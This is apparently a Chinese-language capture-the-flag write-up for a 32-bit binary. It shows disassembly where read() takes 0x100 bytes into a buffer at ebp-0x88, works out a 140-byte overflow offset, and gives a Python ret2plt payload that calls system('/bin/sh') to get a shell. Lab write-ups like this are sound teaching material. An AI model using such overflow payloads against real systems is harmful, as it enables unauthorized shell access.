



先查看防护，发现可以溢出

查看反汇编代码

~~~asm
0804844b    ssize_t vulnerable_function()

0804845c        system(line: "echo Input:")
0804847f        void buf
0804847f        return read(fd: 0, &buf, nbytes: 0x100)

08048480    int32_t main(int32_t argc, char** argv, char** envp)

08048487        void* const __return_addr_1 = __return_addr
0804848d        int32_t* var_c = &argc
08048491        vulnerable_function()
0804849e        system(line: "echo 'Hello World!'")
080484b2        return 0
~~~

根据提示vulnerable_function，发现read可读入0x100个字节的数据。

查看汇编代码ebp-0x88 {buf}发现有溢出空间。

通过工具计算出需要堆140字节

由于代码没有提供后门函数，所以需要考虑其他方式。我们发现代码中有system的plt表，查看字符串发现提供了提示：

所以我们可以构造rop链从而获取shell。payload构造：

~~~python
system_plt = 0x8048320
bin_sh = 0x804a024
payload = b'A'*140+p32(system_plt)+p32(0xdeedbeef)+p32(bin_sh)
~~~

